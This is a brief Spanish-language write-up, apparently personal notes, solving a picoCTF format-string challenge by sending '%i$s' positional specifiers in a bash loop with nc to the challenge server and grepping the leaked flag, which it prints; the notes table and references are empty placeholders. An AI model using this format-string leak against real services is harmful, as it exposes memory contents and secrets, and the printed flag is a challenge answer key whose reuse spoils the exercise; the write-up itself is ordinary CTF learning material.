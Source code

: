 ## Descripción
Story telling class 1/2

I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/92/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/92/vuln.c). And connect with it using:

## Solución
En esta situación necesitamos obtener podemos obtener los caracteres indicando la posición del caractér que queremos obtener.

podemos utilizar %i$s, donde i es el idex de la posición.


```bash
alberto@Nova:~/Descargas$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 56740 | grep -Ei ctf; done
CTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}
```

## Notas Adicionales
|comando|descripcion|
|---|---|
|xx|xx|

## Referencias
- []()
